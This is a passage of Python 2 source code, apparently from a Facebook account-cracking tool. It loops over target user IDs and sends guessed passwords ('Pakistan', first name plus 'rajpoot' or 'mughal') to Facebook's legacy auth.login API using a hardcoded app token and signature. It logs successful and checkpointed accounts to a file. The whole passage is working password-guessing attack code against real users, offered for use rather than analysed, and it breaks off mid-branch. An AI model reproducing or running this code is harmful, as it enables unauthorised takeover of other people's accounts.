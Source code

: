 			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if 'access_token' in q:
				print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;92m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass1
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in q["error_msg"]:
					print '\x1b[1;95mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass1
					cek = open("out/checkpoint.txt", "a")
					cek.write(user+"|"+pass1+"\n")
					cek.close()
					cekpoint.append(user+pass1)
				else:
					pass2 = 'Pakistan'
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if 'access_token' in q:
						print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass2
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in q["error_msg"]:
							print '\x1b[1;95mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass2
							cek = open("out/checkpoint.txt", "a")
							cek.write(user+"|"+pass2+"\n")
							cek.close()
							cekpoint.append(user+pass2)
						else:
							pass3 = a['first_name'] + 'rajpoot'
							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load(data)
							if 'access_token' in q:
								print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass3
								oks.append(user+pass3)
							else:
								if 'www.facebook.com' in q["error_msg"]:
									print '\x1b[1;95mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass3
									cek = open("out/checkpoint.txt", "a")
									cek.write(user+"|"+pass3+"\n")
									cek.close()
									cekpoint.append(user+pass3)
								else:
									pass4 = b['first_name'] + 'mughal'
									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load(data)
									if 'access_token' in q:
										print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass4
										oks.append(user+pass4)
									else:
										if 'www.facebook.com' in q["error_msg"]: